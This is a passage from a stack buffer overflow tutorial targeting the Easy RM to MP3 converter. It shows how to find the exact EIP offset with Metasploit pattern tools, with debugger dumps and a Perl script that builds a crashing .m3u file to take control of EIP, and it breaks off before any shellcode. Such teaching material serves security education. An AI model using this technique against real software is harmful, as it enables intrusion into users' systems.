

We know that EIP is located somewhere between 20000 and 30000 bytes from the beginning of the buffer. Now, you could potentially overwrite all memory space between 20000 and 30000 bytes with the address you want to overwrite EIP with. This may work, but it looks much more nice if you can find the exact location to perform the overwrite. In order to determine the exact offset of EIP in our buffer, we need to do some additional work.
First, let’s try to narrow down the location by changing our perl script just a little :
Let’s cut things in half. We’ll create a file that contains 25000 A’s and another 5000 B’s. If EIP contains an 41414141 (AAAA), EIP sits between 20000 and 25000, and if EIP contains 42424242 (BBBB), EIP sits between 25000 and 30000. Create the file and open crash25000.m3u in Easy RM to MP3.

OK, so eip contains 42424242 (BBBB), so we know EIP has an offset between 25000 and 30000. That also means that we should/may see the remaining B’s in memory where ESP points at (given that EIP was overwritten before the end of the 30000 character buffer)
dump the contents of ESP :
0:000> d esp
000ff730 42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42 BBBBBBBBBBBBBBBB
000ff740 42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42 BBBBBBBBBBBBBBBB
000ff750 42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42 BBBBBBBBBBBBBBBB
000ff760 42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42 BBBBBBBBBBBBBBBB
000ff770 42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42 BBBBBBBBBBBBBBBB
000ff780 42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42 BBBBBBBBBBBBBBBB
000ff790 42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42 BBBBBBBBBBBBBBBB
000ff7a0 42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42 BBBBBBBBBBBBBBBB
That is great news. We have overwritten EIP with BBBB and we can also see our buffer in ESP.
Before we can start tweaking the script, we need to find the exact location in our buffer that overwrites EIP.
In order to find the exact location, we’ll use Metasploit.
Metasploit has a nice tool to assist us with calculating the offset. It will generate a string that contains unique patterns. Using this pattern (and the value of EIP after using the pattern in our malicious .m3u file), we can see how big the buffer should be to write exactly into EIP.
Open the tools folder in the metasploit framework3 folder (I’m using a linux version of metasploit 3). You should find a tool called pattern_create.rb. Create a pattern of 5000 characters and write it into a file.
root@bt:/pentest/exploits/framework3/tools# ./pattern_create.rb
Usage: pattern_create.rb length [set a] [set b] [set c]
root@bt:/pentest/exploits/framework3/tools# ./pattern_create.rb 5000
Edit the perl script and replace the content of $junk2 with our 5000 characters.
Create the m3u file. open this file in Easy RM to MP3, wait until the application dies again, and take note of the contents of EIP

At this time, eip contains 0x356b4234 (note : little endian : we have overwritten EIP with 34 42 6b 35 = 4Bk5
Let’s use a second metasploit tool now, to calculate the exact length of the buffer before writing into EIP, feed it with the value of EIP (based on the pattern file) and length of the buffer :
root@bt:/pentest/exploits/framework3/tools# ./pattern_offset.rb 0x356b4234 5000
1094
root@bt:/pentest/exploits/framework3/tools#
1094. That’s the buffer length needed to overwrite EIP. So if you create a file with 25000+1094 A’s, and then add 4 B’s (42 42 42 42 in hex) EIP should contain 42 42 42 42.� We also know that ESP points at data from our buffer, so we’ll add some C’s after overwriting EIP.
Let’s try. Modify the perl script to create the new m3u file.
my $file= "eipcrash.m3u";
my $junk= "A" x 26094;
my $eip = "BBBB";
my $espdata = "C" x 1000;
open($FILE,">$file");
print $FILE $junk.$eip.$espdata;
close($FILE);
print "m3u File Created successfully\n";
Create eipcrash.m3u, open it in Easy RM to MP3, observe the crash and look at eip and the contents of the memory at ESP

0:000> d esp
000ff730 43 43 43 43 43 43 43 43-43 43 43 43 43 43 43 43 CCCCCCCCCCCCCCCC
000ff740 43 43 43 43 43 43 43 43-43 43 43 43 43 43 43 43 CCCCCCCCCCCCCCCC
000ff750 43 43 43 43 43 43 43 43-43 43 43 43 43 43 43 43 CCCCCCCCCCCCCCCC
000ff760 43 43 43 43 43 43 43 43-43 43 43 43 43 43 43 43 CCCCCCCCCCCCCCCC
000ff770 43 43 43 43 43 43 43 43-43 43 43 43 43 43 43 43 CCCCCCCCCCCCCCCC
000ff780 43 43 43 43 43 43 43 43-43 43 43 43 43 43 43 43 CCCCCCCCCCCCCCCC
000ff790 43 43 43 43 43 43 43 43-43 43 43 43 43 43 43 43 CCCCCCCCCCCCCCCC
000ff7a0 43 43 43 43 43 43 43 43-43 43 43 43 43 43 43 43 CCCCCCCCCCCCCCCC
In Immunity Debugger, you can see the contents of the stack, at ESP, by looking at the lower right hand window.
Excellent. EIP contains BBBB, which is exactly what we wanted. So now we control EIP. On top of that, ESP points to our buffer (C’s)
Note : the offset shown here is the result of the analysis on my own system. If you are trying to reproduce the exercises from this tutorial on your own system, odds are high that you will get a different offset address. So please don’t just take the offset value or copy the source code to your system, as the offset is based on the file path where the m3u file is stored. The buffer that is vulnerable to an overflow includes the full path to the m3u file. So if the path on your system is shorter or larger than mine, then the offset will be different.
Our exploit buffer so far looks like this :